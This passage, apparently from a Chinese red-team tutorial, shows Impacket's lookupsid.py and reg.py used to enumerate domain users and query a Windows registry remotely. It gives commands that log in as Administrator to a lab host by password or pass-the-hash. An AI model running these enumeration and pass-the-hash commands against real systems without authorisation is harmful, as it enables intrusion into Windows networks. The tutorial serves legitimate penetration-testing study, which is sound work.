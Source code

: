 ![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODu6EOOo9mRd00wOt9InXongFmJwMJKTTtUe2ZqRdRjf382PyOn0I7cO5iaA8o5KuSWzktp62ntFUaQ/640?wx_fmt=png)

我们将连接到目标计算机，并且我们有了一个 smb shell，它可以运行各 种命令，例如 dir，cd，pwd，put，rename，更多，del，rm，mkdir，rmdir，信息等

lookupsid.py 

安全标识符（SID）是可变长度的唯一值，用于标识用户帐户，通过 SID 用 户枚举，我们可以提取有关存在的用户及其数据的信息，Lookupsid 脚本可以枚举本地和域用户。

句法：

```
lookupsid.py [域] / [用户]：[密码/密码哈希] @ [目标 IP 地址]
```

通过密码进行验证

```
Pyhton lookupsid.py
redteamspace/Administrator:123456@192.168.75.141
```

通过 hash 进行验证

```
Pyhton lookupsid.py -hashes 00000000000000000000000000000000: 
32ed87bdb5fdc5e9cba88547376818d4 
redteamspace/Administrator@192.168.75.141
```

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODu6EOOo9mRd00wOt9InXongyD920bOmTuIjeUaP1gaKeteP136E6XpH7dUrpQAkM2G5uDJnzUQ41Q/640?wx_fmt=png)

reg.py 

Reg.exe 是一个可执行服务，当与 eh 分别结合查询，添加，删除关键字的组合使用时，可以读取，修改和删除注册表值, 该脚本就是利用 reg 服务，它可用于获取有关各种策略，软件的信息，还可以更改其中一些策略。

句法：

```
reg.py [域] / [用户]：[密码：密码哈希] @ [目标 IP 地址] [操作] [操作参数]
```

通过密码进行验证

```
Python3 reg.py Administrator:123456@192.168.75.141 query -
keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```

通过 hash 进行验证

```
Pyhton reg.py -hashes 00000000000000000000000000000000: 
32ed87bdb5fdc5e9cba88547376818d
redteamspace/Administrator@192.168.75.141 query -keyName 
HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```

上面实例可以获取 windows 的安全策略

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODu6EOOo9mRd00wOt9InXongUKv4LicUiaKh2pP0kYnh85EiamIpiaoMyiav8IAzzyG5WavX5lBOVUmhk7w/640?wx_fmt=png)
